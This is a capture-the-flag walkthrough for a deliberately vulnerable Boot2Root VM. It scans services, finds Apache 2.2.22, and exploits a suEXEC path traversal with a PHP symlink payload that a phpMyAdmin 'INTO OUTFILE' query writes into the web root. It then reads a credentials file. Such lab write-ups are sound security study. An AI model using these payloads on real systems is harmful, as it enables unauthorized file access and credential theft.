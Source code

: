 When we scan the network to find the open ports, we can get the services versions

```
nmap -sV 192.168.121.131                                                                                                                                                 !
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-28 18:30 CEST
Nmap scan report for borntosechackme.home (192.168.1.22)
Host is up (0.00016s latency).
Not shown: 994 closed ports
PORT    STATE SERVICE    VERSION
21/tcp  open  ftp        vsftpd 2.0.8 or later
22/tcp  open  ssh        OpenSSH 5.9p1 Debian 5ubuntu1.7 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http       Apache httpd 2.2.22 ((Ubuntu))
143/tcp open  imap       Dovecot imapd
443/tcp open  ssl/http   Apache httpd 2.2.22
993/tcp open  ssl/imaps?
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Apache is running with the version `2.2.22`

After some research, we found this version is vulnerable. The suEXEC vulnerability is a path traversal. We can do a symlink with `/` and a php page to access a files the user `www-data` can read

We can found an exploit here : exploit-db.com/exploits/27397

We can exploit it by uploading a PHP page (with a SQL request in phpmyadmin like in the foothold)

```html
<?php
    symlink("/", "paths.php");
?>
```

```sql
SELECT 1, '<?php symlink(\"/\", \"paths.php\");?>' INTO OUTFILE '/var/www/forum/templates_c/run.php'
```

We will upload the page with a script `suexec.py`. We can do it manually on the phpmyadmin page

![](../Images/Pasted%20image%2020240801231111.png)

After this, the code need to be run with the page `https://192.168.121.131/forum/templates_c/run.php` (The script do it automatically)

Now, we can naviguate on the machine folders in the page `https://192.168.121.131/forum/templates_c/paths.php`

![](../Images/Pasted%20image%2020240801231349.png)

We can get some credentials on the path `/home/LOOKATME/password`

![](../Images/Pasted%20image%2020240801231416.png)

![](../Images/Pasted%20image%2020240801231435.png)

It's the FTP credentials, now continue the steps of the PE 2 starting at the lmezard part to be root!